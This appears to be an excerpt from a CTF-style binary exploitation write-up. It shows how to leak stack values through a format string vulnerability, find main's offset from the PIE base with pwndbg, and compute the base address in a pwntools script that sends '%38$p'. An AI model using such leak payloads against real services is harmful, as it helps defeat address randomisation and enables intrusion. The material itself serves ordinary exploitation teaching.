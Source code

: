 * Result:

```
0: b'%0$p\n'
1: b'0x6c6c6548\n'
2: b'(nil)\n'
3: b'(nil)\n'
4: b'0x5555555596b5\n'
5: b'(nil)\n'
6: b'0xa70243625\n'
7: b'(nil)\n'
8: b'(nil)\n'
15: b'0x555555555224\n'
38: b'0x5555555551f8\n'
```
Knowing our PIE base address looks like `0x555555554000`, the 4th item of the stack is probably a address of a function. Let's calculate which is the offset to the base.


```
pwndbg> x 0x5555555596b5
0x5555555596b5: Cannot access memory at address 0x5555555596b5
pwndbg> x 0x5555555550ca
0x5555555550ca <_start+42>:     0x441f0ff4
pwndbg> x 0x5555555550a0
0x5555555550a0 <_start>:        0x8949ed31
pwndbg> x 0x5555555551f8
0x5555555551f8 <main>:  0xe5894855
pwndbg> x 0x555555555224
0x555555555224 <main+44>:       0xfd3d8d48
pwndbg> x 0x7fffffffe796
0x7fffffffe796: 0x5345445f
```

We can use for example main function that we know that is the 38th item of the stack to calculate the offset.

```
pwndbg> x 0x5555555551f8 - 0x555555554000 
0x11f8 <main>:  Cannot access memory at address 0x11f8
```
> **Note**: `OFFSET` =  `KNOWN FUNCTION` - `LOCAL PIE BASE`.

So if we retrieve the main address and we know the offset we can get the PIE base address.

```python
# Retrieving PIE Base Address
elf = context.binary = ELF(exe, checksec=False)

io = start()
io.sendlineafter(b':', '%38$p')
io.recvuntil(b'Hello ')
r = io.recvline()

main_address = int(r[:-1], 16)
info("Leaked <main>: %#x", main_address)

elf.address = main_address - 0x11f8
info("PIE base: %#x", elf.address)
```
